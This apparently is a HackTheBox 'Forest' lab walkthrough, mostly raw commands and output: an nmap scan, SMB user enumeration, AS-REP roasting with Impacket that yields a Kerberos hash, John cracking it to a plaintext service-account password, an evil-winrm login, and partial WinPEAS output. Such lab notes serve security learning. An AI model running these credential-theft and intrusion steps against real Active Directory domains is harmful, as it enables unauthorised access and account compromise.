

# Nmap
## Nmap 7.80 scan initiated Sat Feb 29 20:56:25 2020 as: nmap -T4 -A -p- -oA forest.nmap 10.10.10.161
```
Warning: 10.10.10.161 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.161
Host is up (0.055s latency).
Not shown: 65496 closed ports
PORT      STATE    SERVICE        VERSION
53/tcp    open     domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open     kerberos-sec   Microsoft Windows Kerberos (server time: 2020-02-29 20:23:29Z)
135/tcp   open     msrpc          Microsoft Windows RPC
139/tcp   open     netbios-ssn    Microsoft Windows netbios-ssn
389/tcp   open     ldap           Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds   Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
646/tcp   filtered ldp
3268/tcp  open     ldap           Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
3909/tcp  filtered surfcontrolcpa
5985/tcp  open     http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7597/tcp  filtered qaz
9389/tcp  open     mc-nmf         .NET Message Framing
22154/tcp filtered unknown
24914/tcp filtered unknown
32572/tcp filtered unknown
36015/tcp filtered unknown
36804/tcp filtered unknown
42236/tcp filtered unknown
43516/tcp filtered unknown
44049/tcp filtered unknown
44737/tcp filtered unknown
47001/tcp open     http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc          Microsoft Windows RPC
49665/tcp open     msrpc          Microsoft Windows RPC
49666/tcp open     msrpc          Microsoft Windows RPC
49667/tcp open     msrpc          Microsoft Windows RPC
49672/tcp open     msrpc          Microsoft Windows RPC
49676/tcp open     ncacn_http     Microsoft Windows RPC over HTTP 1.0
49677/tcp open     msrpc          Microsoft Windows RPC
49684/tcp open     msrpc          Microsoft Windows RPC
49695/tcp open     msrpc          Microsoft Windows RPC
49716/tcp open     msrpc          Microsoft Windows RPC
51931/tcp filtered unknown
60805/tcp filtered unknown
62885/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/29%Time=5E5AC638%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=2/29%OT=53%CT=1%CU=44445%PV=Y%DS=2%DC=T%G=Y%TM=5E5AC73
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%CI=RD%II=I%TS=A)SEQ(SP=
OS:108%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=107%GCD=1%ISR=10B%TI=I
OS:%CI=I%II=I%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54
OS:DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%
OS:W5=2000%W6=2000)ECN(R=N)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1
OS:(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O
OS:=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%
OS:W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RU
OS:CK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h48m45s, deviation: 4h37m09s, median: 8m44s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2020-02-29T12:26:00-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-29T20:26:01
|_  start_date: 2020-02-29T18:18:47

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   54.85 ms 10.10.14.1
2   54.38 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
## Nmap done at Sat Feb 29 21:18:59 2020 -- 1 IP address (1 host up) scanned in 1354.09 seconds

#  smbuser enumeration

```
msfconsole auxiliary/scanner/smb/smb_enumusers
[+] 10.10.10.161:445      - HTB [ Administrator, Guest, krbtgt, DefaultAccount, $331000-VK4ADACQNUCA, SM_2c8eef0a09b545acb, SM_ca8c2ed5bdab4dc9b, SM_75a538d3025e4db9a, SM_681f53d4942840e18, SM_1b41c9286325456bb, SM_9b69f1b9d2cc45549, SM_7c96b981967141ebb, SM_c75ee099d0a64c91b, SM_1ffab36a2f5f479cb, HealthMailboxc3d7722, HealthMailboxfc9daad, HealthMailboxc0a90c9, HealthMailbox670628e, HealthMailbox968e74d, HealthMailbox6ded678, HealthMailbox83d6781, HealthMailboxfd87238, HealthMailboxb01ac64, HealthMailbox7108a4e, HealthMailbox0659cc1, sebastien, lucinda, svc-alfresco, andy, mark, santi, 0xB700D, med, fn567z, B.Test, help, doc, mich, toto, NameLess ] ( LockoutTries=0 PasswordMin=7 )
```
Users List: 
- Administrator
- sebastien 
- lucinda
- svc-alfresco
- andy
- mark
- santi
- med
- B.Test
- mich
- toto
- NameLess

# Impacket

```python GetNPUsers.py -dc-ip 10.10.10.161 -no-pass -usersfile ~/hackthebox/forest/users.txt -format john htb.local/```
```
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:9947224373e83993d1d53fa912e857ab$c53ca04e34b7755ed64dd46f7431fb7009430a647eb67259223f76361e4a3e1fe38dc95fcaf953e4fd3624abc796b24c9f752adf77e39d25d3408f7e5653e6c3fb52207fa2a6148e0184a69732e92fd46fd9e402c9faacdafc419c656531a08d841454fe2a5e99d73e5aff3e7c9bef9662e926e4641b3726233ad7a83a58a876ba7c1db98781ca2a4b613fc594c5b101a1b22c24d27be80a77fe377e9488a9dc50bc937858d747ea3447165a5e6a95634eb3a592a6847ea93618cb300b4894a882508e1cada18800f101db3d117eda8b1e71f5574e91faf109da5346f64b8c4be2376e29b4aa
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User NameLess doesn't have UF_DONT_REQUIRE_PREAUTH set
```
# John the ripper
```zcat /usr/share/wordlist/rockyou.txt.gz | john -stdin users.txt```

***svc-alfresco:s3rvice***


# Loggin into powershell and get user flag

```
ruby evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

# WinPeas

```
ANSI color bit for Windows is not set. If you are execcuting this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
Error while getting Win32_UserAccount info: System.Management.ManagementException: Access denied
   at System.Management.ThreadDispatch.Start()
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at d4.bu()
   - Creating current user groups list...
   - Creating active users list...
  [X] Exception: System.NullReferenceException: Object reference not set to an instance of an object.
   at d7.a(Boolean A_0, Boolean A_1, Boolean A_2, Boolean A_3, Boolean A_4)
   - Creating disabled users list...
  [X] Exception: System.NullReferenceException: Object reference not set to an instance of an object.
   at d7.a(Boolean A_0, Boolean A_1, Boolean A_2, Boolean A_3, Boolean A_4)
   - Admin users list...
  [X] Exception: System.NullReferenceException: Object reference not set to an instance of an object.
   at d7.a(Boolean A_0, Boolean A_1, Boolean A_2, Boolean A_3, Boolean A_4)

             *((,.,/((((((((((((((((((((/,  */
      ,/*,..*((((((((((((((((((((((((((((((((((,
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*
    ((((((((((((((((**********/########## .(* ,(((((((
    (((((((((((/********************/####### .(. (((((((
    ((((((..******************/@@@@@/***/###### ./(((((((
    ,,....********************@@@@@@@@@@(***,#### .//((((((
    , ,..********************/@@@@@%@@@@/********##((/ /((((
    ..((###########*********/%@@@@@@@@@/************,,..((((
    .(##################(/******/@@@@@/***************.. /((
    .(#########################(/**********************..*((
    .(##############################(/*****************.,(((
    .(###################################(/************..(((
    .(#######################################(*********..(((
    .(#######(,.***.,(###################(..***.*******..(((
    .(#######*(#####((##################((######/(*****..(((
    .(###################(/***********(##############(...(((
    .((#####################/*******(################.((((((
    .(((############################################(..((((
    ..(((##########################################(..(((((
    ....((########################################( .(((((
    ......((####################################( .((((((
    (((((((((#################################(../((((((
        (((((((((/##########################(/..((((((
              (((((((((/,.  ,*//////*,. ./(((((((((((((((.
                 (((((((((((((((((((((((((((((/

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

  WinPEAS vBETA VERSION, Please if you find any issue let me know in https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues by carlospolop

  [+] Leyend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links

   [?] You can find a Windows local PE Checklist here: https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation


  ==========================================(System Information)==========================================

  [+] Basic System Information(T1082&T1124&T1012&T1497&T1212)
   [?] Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits
  [X] Exception: Access denied 
  [X] Exception: Access denied 
System.Collections.Generic.KeyNotFoundException: The given key was not present in the dictionary.
   at System.ThrowHelper.ThrowKeyNotFoundException()
   at System.Collections.Generic.Dictionary`2.get_Item(TKey key)
   at d4.bj()

  [+] PowerShell Settings()
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.14393.0
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 

  [+] Audit Settings(T1012)
   [?] Check what is being logged 
    Not Found

  [+] WEF Settings(T1012)
   [?] Windows Event Forwarding, is interesting to know were are sent the logs 
    Not Found

  [+] LAPS Settings(T1012)
   [?] If installed, local administrator password is changed frequently and is restricted by ACL 
    LAPS Enabled: LAPS not installed

  [+] Wdigest()
   [?] If enabled, plain-text crds could be stored in LSASS https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#wdigest
    Wdigest is not enabled

  [+] LSA Protection()
   [?] If enabled, a driver is needed to read LSASS memory (If Secure Boot or UEFI, RunAsPPL cannot be disabled by deleting the registry key) https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#lsa-protection
    LSA Protection is not enabled

  [+] Credentials Guard()
   [?] If enabled, a driver is needed to read LSASS memory https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#credential-guard
    CredentialGuard is not enabled

  [+] Cached Creds()
   [?] If > 0, credentials will be cached in the registry and accessible by SYSTEM user https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#cached-credentials
    cachedlogonscount is 10

  [+] User Environment Variables()
   [?] Check for some passwords or keys in the env variables 
    COMPUTERNAME: FOREST
    PUBLIC: C:\Users\Public
    LOCALAPPDATA: C:\Users\svc-alfresco\AppData\Local
    PSModulePath: C:\Users\svc-alfresco\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
    PROCESSOR_ARCHITECTURE: AMD64
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Users\svc-alfresco\AppData\Local\Microsoft\WindowsApps
    CommonProgramFiles(x86): C:\Program Files (x86)\Common Files
    ProgramFiles(x86): C:\Program Files (x86)
    PROCESSOR_LEVEL: 23
    ProgramFiles: C:\Program Files
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
    USERPROFILE: C:\Users\svc-alfresco
    SystemRoot: C:\Windows
    ALLUSERSPROFILE: C:\ProgramData
    ProgramData: C:\ProgramData
    PROCESSOR_REVISION: 0102
    USERNAME: svc-alfresco
    CommonProgramW6432: C:\Program Files\Common Files
    CommonProgramFiles: C:\Program Files\Common Files
    OS: Windows_NT
    PROCESSOR_IDENTIFIER: AMD64 Family 23 Model 1 Stepping 2, AuthenticAMD
    ComSpec: C:\Windows\system32\cmd.exe
    SystemDrive: C:
    TEMP: C:\Users\SVC-AL~1\AppData\Local\Temp
    NUMBER_OF_PROCESSORS: 2
    APPDATA: C:\Users\svc-alfresco\AppData\Roaming
    TMP: C:\Users\SVC-AL~1\AppData\Local\Temp
    ProgramW6432: C:\Program Files
    windir: C:\Windows
    USERDOMAIN: HTB
    USERDNSDOMAIN: htb.local

  [+] System Environment Variables()
   [?] Check for some passwords or keys in the env variables 
    ComSpec: C:\Windows\system32\cmd.exe
    OS: Windows_NT
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
    PROCESSOR_ARCHITECTURE: AMD64
    PSModulePath: C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
    TEMP: C:\Windows\TEMP
    TMP: C:\Windows\TEMP
    USERNAME: SYSTEM
    windir: C:\Windows
    NUMBER_OF_PROCESSORS: 2
    PROCESSOR_LEVEL: 23
    PROCESSOR_IDENTIFIER: AMD64 Family 23 Model 1 Stepping 2, AuthenticAMD
    PROCESSOR_REVISION: 0102

  [+] HKCU Internet Settings(T1012)
    DisableCachingOfSSLPages: 0
    IE5_UA_Backup_Flag: 5.0
    PrivacyAdvanced: 1
    SecureProtocols: 2688
    User Agent: Mozilla/4.0 (compatible; MSIE 8.0; Win32)
    CertificateRevocation: 1
    ZonesSecurityUpgrade: System.Byte[]

  [+] HKLM Internet Settings(T1012)
    EnablePunycode: 1

  [+] Drives Information(T1120)
   [?] Remember that you should search more info inside the other drives 
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 28 GB)(Permissions: Users [AppendData/CreateDirectories])
    D:\ (Type: CDRom)

  [+] AV Information(T1063)
  [X] Exception: Access denied 
    No AV was detected!!
    Not Found

  [+] UAC Status(T1012)
   [?] If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
    ConsentPromptBehaviorAdmin: 5 - PromptForNonWindowsBinaries
    EnableLUA: 1
    LocalAccountTokenFilterPolicy: 
    FilterAdministratorToken: 0
      [*] LocalAccountTokenFilterPolicy set to 0 and FilterAdministratorToken != 1.
      [-] Only the RID-500 local admin account can be used for lateral movement.


  ===========================================(Users Information)===========================================

  [+] Users(T1087&T1069&T1033)
   [?] Check if you have some admin equivalent privileges https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#users-and-groups
  [X] Exception: System.NullReferenceException: Object reference not set to an instance of an object.
   at d7.a(Boolean A_0, Boolean A_1, Boolean A_2, Boolean A_3, Boolean A_4)
  Current user: 35msvc-alfresco
  Current groups: Domain Users, Everyone, Users, Builtin\Pre-Windows 2000 Compatible Access, Builtin\Remote Management Users, Account Operators, Network, Authenticated Users, This Organization, Privileged IT Accounts, Service Accounts, NTLM Authentication
   =================================================================================================

    Not Found

  [+] Current Token privileges(T1134)
   [?] Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation
    SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED

  [+] Clipboard text(T1134)


  [+] Logged users(T1087&T1033)
  [X] Exception: System.Management.ManagementException: Access denied
   at System.Management.ThreadDispatch.Start()
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at d7.h()
    Not Found

  [+] RDP Sessions(T1087&T1033)
    Not Found

  [+] Ever logged users(T1087&T1033)
  [X] Exception: System.Management.ManagementException: Access denied
   at System.Management.ThreadDispatch.Start()
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at d7.f()
    Not Found

  [+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultDomainName             :  35mHTB

  [+] Home folders found(T1087&T1083&T1033)
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\Public
    C:\Users\sebastien
    C:\Users\svc-alfresco

  [+] Password Policies(T1201)
   [?] Check for a possible brute-force 
    Domain: Builtin
    SID: S-1-5-32
    MaxPasswordAge: 42.22:47:31.7437440
    MinPasswordAge: 00:00:00
    MinPasswordLength: 0
    PasswordHistoryLength: 0
    PasswordProperties: 0
   =================================================================================================

    Domain: 35mHTB
    SID: S-1-5-21-3072663084-364016917-1341370565
    MaxPasswordAge: 42.00:00:00
    MinPasswordAge: 1.00:00:00
    MinPasswordLength: 7
    PasswordHistoryLength: 24
    PasswordProperties: 0
   =================================================================================================


  =======================================(Processes Information)=======================================

  [+] Interesting Processes -non Microsoft-(T1010&T1057&T1007)
   [?] Check if any interesting proccesses for memmory dump or if you could overwrite some binary running https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#running-processes
  [X] Exception: Access denied 
System.InvalidOperationException: Cannot open Service Control Manager on computer '.'. This operation might require other privileges. ---> System.ComponentModel.Win32Exception: Access is denied
   --- End of inner exception stack trace ---
   at System.ServiceProcess.ServiceController.GetDataBaseHandleWithAccess(String machineName, Int32 serviceControlManaqerAccess)
   at System.ServiceProcess.ServiceController.GetServicesOfType(String machineName, Int32 serviceType)
   at System.ServiceProcess.ServiceController.GetServices()
   at d5.c(Dictionary`2 A_0)
   at d4.bp()


  ========================================(Services Information)========================================

  [+] Interesting Services -non Microsoft-(T1007)
   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
  [X] Exception: Access denied 
    @arcsas.inf,%arcsas_ServiceName%;Adaptec SAS/SATA-II RAID Storport's Miniport Driver(PMC-Sierra, Inc. - @arcsas.inf,%arcsas_ServiceName%;Adaptec SAS/SATA-II RAID Storport's Miniport Driver)[System32\drivers\arcsas.sys] - Boot
   =================================================================================================

    @netbvbda.inf,%vbd_srv_desc%;QLogic Network Adapter VBD(QLogic Corporation - @netbvbda.inf,%vbd_srv_desc%;QLogic Network Adapter VBD)[System32\drivers\bxvbda.sys] - Boot
   =================================================================================================

    @bxfcoe.inf,%BXFCOE.SVCDESC%;QLogic FCoE Offload driver(QLogic Corporation - @bxfcoe.inf,%BXFCOE.SVCDESC%;QLogic FCoE Offload driver)[System32\drivers\bxfcoe.sys] - Boot
   =================================================================================================

    @bxois.inf,%BXOIS.SVCDESC%;QLogic Offload iSCSI Driver(QLogic Corporation - @bxois.inf,%BXOIS.SVCDESC%;QLogic Offload iSCSI Driver)[System32\drivers\bxois.sys] - Boot
   =================================================================================================

    @cht4vx64.inf,%cht4vbd.generic%;Chelsio Virtual Bus Driver(Chelsio Communications - @cht4vx64.inf,%cht4vbd.generic%;Chelsio Virtual Bus Driver)[C:\Windows\System32\drivers\cht4vx64.sys] - System
   =================================================================================================

    @net1ix64.inf,%e1iExpress.Service.DispName%;Intel(R) PRO/1000 PCI Express Network Connection Driver I(Intel Corporation - @net1ix64.inf,%e1iExpress.Service.DispName%;Intel(R) PRO/1000 PCI Express Network Connection Driver I)[C:\Windows\System32\drivers\e1i63x64.sys] - System
   =================================================================================================

    @netevbda.inf,%vbd_srv_desc%;QLogic 10 Gigabit Ethernet Adapter VBD(QLogic Corporation - @netevbda.inf,%vbd_srv_desc%;QLogic 10 Gigabit Ethernet Adapter VBD)[System32\drivers\evbda.sys] - Boot
   =================================================================================================

    @iastorav.inf,%iaStorAV.DeviceDesc%;Intel(R) SATA RAID Controller Windows(Intel Corporation - @iastorav.inf,%iaStorAV.DeviceDesc%;Intel(R) SATA RAID Controller Windows)[System32\drivers\iaStorAV.sys] - Boot
   =================================================================================================

    @iastorv.inf,%*PNP0600.DeviceDesc%;Intel RAID Controller Windows 7(Intel Corporation - @iastorv.inf,%*PNP0600.DeviceDesc%;Intel RAID Controller Windows 7)[System32\drivers\iaStorV.sys] - Boot
   =================================================================================================

    @mlx4_bus.inf,%Ibbus.ServiceDesc%;Mellanox InfiniBand Bus/AL (Filter Driver)(Mellanox - @mlx4_bus.inf,%Ibbus.ServiceDesc%;Mellanox InfiniBand Bus/AL (Filter Driver))[C:\Windows\System32\drivers\ibbus.sys] - System
   =================================================================================================

    @mlx4_bus.inf,%MLX4BUS.ServiceDesc%;Mellanox ConnectX Bus Enumerator(Mellanox - @mlx4_bus.inf,%MLX4BUS.ServiceDesc%;Mellanox ConnectX Bus Enumerator)[C:\Windows\System32\drivers\mlx4_bus.sys] - System
   =================================================================================================

    @mlx4_bus.inf,%ndfltr.ServiceDesc%;NetworkDirect Service(Mellanox - @mlx4_bus.inf,%ndfltr.ServiceDesc%;NetworkDirect Service)[C:\Windows\System32\drivers\ndfltr.sys] - System
   =================================================================================================

    @ql2300.inf,%ql2300i.DriverDesc%;QLogic Fibre Channel STOR Miniport Inbox Driver (wx64)(QLogic Corporation - @ql2300.inf,%ql2300i.DriverDesc%;QLogic Fibre Channel STOR Miniport Inbox Driver (wx64))[System32\drivers\ql2300i.sys] - Boot
   =================================================================================================

    @ql40xx2i.inf,%ql40xx2i.DriverDesc%;QLogic iSCSI Miniport Inbox Driver(QLogic Corporation - @ql40xx2i.inf,%ql40xx2i.DriverDesc%;QLogic iSCSI Miniport Inbox Driver)[System32\drivers\ql40xx2i.sys] - Boot
   =================================================================================================

    @qlfcoei.inf,%qlfcoei.DriverDesc%;QLogic [FCoE] STOR Miniport Inbox Driver (wx64)(QLogic Corporation - @qlfcoei.inf,%qlfcoei.DriverDesc%;QLogic [FCoE] STOR Miniport Inbox Driver (wx64))[System32\drivers\qlfcoei.sys] - Boot
   =================================================================================================

    @netgrea.inf,%Svc-Mp-Gre-DispName%;WAN Miniport (GRE)(@netgrea.inf,%Svc-Mp-Gre-DispName%;WAN Miniport (GRE))[C:\Windows\System32\drivers\rasgre.sys] - System
    @netgrea.inf,%Svc-Mp-Gre-DispName%;WAN Miniport (GRE)
   =================================================================================================

    @usbstor.inf,%USBSTOR.SvcDesc%;USB Mass Storage Driver(@usbstor.inf,%USBSTOR.SvcDesc%;USB Mass Storage Driver)[C:\Windows\System32\drivers\USBSTOR.SYS] - System
   =================================================================================================

    @usbxhci.inf,%PCI\CC_0C0330.DeviceDesc%;USB xHCI Compliant Host Controller(@usbxhci.inf,%PCI\CC_0C0330.DeviceDesc%;USB xHCI Compliant Host Controller)[C:\Windows\System32\drivers\USBXHCI.SYS] - System
   =================================================================================================

    VMware Alias Manager and Ticket Service(VMware, Inc. - VMware Alias Manager and Ticket Service)["C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"] - Autoload
    Alias Manager and Ticket Service
   =================================================================================================

    @oem0.inf,%loc.vmciServiceDisplayName%;VMware VMCI Bus Driver(VMware, Inc. - @oem0.inf,%loc.vmciServiceDisplayName%;VMware VMCI Bus Driver)[System32\drivers\vmci.sys] - Boot
   =================================================================================================

    Memory Control Driver(VMware, Inc. - Memory Control Driver)[C:\Windows\system32\DRIVERS\vmmemctl.sys] - Autoload
    Driver to provide enhanced memory management of this virtual machine.
   =================================================================================================

    @oem5.inf,%VMMouse.SvcDesc%;VMware Pointing Device(VMware, Inc. - @oem5.inf,%VMMouse.SvcDesc%;VMware Pointing Device)[C:\Windows\System32\drivers\vmmouse.sys] - System
   =================================================================================================

    VMware Tools(VMware, Inc. - VMware Tools)["C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"] - Autoload
    Provides support for synchronizing objects between the host and guest operating systems.
   =================================================================================================

    @oem4.inf,%VMUsbMouse.SvcDesc%;VMware USB Pointing Device(VMware, Inc. - @oem4.inf,%VMUsbMouse.SvcDesc%;VMware USB Pointing Device)[C:\Windows\System32\drivers\vmusbmouse.sys] - System
   =================================================================================================

    VMware CAF AMQP Communication Service(VMware CAF AMQP Communication Service)["C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\CommAmqpListener.exe"] - System
    VMware Common Agent AMQP Communication Service
   =================================================================================================

    VMware CAF Management Agent Service(VMware CAF Management Agent Service)["C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\ManagementAgentHost.exe"] - System
    VMware Common Agent Management Agent Service
   =================================================================================================

    vSockets Virtual Machine Communication Interface Sockets driver(VMware, Inc. - vSockets Virtual Machine Communication Interface Sockets driver)[system32\DRIVERS\vsock.sys] - Boot
    vSockets Driver
   =================================================================================================

    @vstxraid.inf,%Driver.DeviceDesc%;VIA StorX Storage RAID Controller Windows Driver(VIA Corporation - @vstxraid.inf,%Driver.DeviceDesc%;VIA StorX Storage RAID Controller Windows Driver)[System32\drivers\vstxraid.sys] - Boot
   =================================================================================================

